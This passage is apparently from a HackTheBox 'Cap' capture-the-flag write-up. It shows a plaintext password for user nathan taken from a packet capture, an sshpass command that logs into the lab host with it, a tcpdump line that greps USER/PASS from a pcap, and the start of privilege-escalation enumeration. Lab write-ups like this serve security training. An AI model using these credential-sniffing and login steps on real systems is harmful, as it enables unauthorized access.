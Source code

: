 ![](<./attachments/Cap-5.png>)
>nathan:Buck3tH4TF0RM3!

- can be used to ssh into user `nathan`
```bash
sshpass -p Buck3tH4TF0RM3! ssh nathan@10.10.10.245 -p 22
```

#### tcpdump Method
```sh title:tcpdump
sudo tcpdump -r 0.pcap -A | grep -Ei "USER|PASS"
```
![](<./attachments/Cap-4.png>)
---
# Privilege Escalation to Root

## Local Enumeration

- Checked user privileges and system configuration:

```bash
whoami
id
sudo -l
```
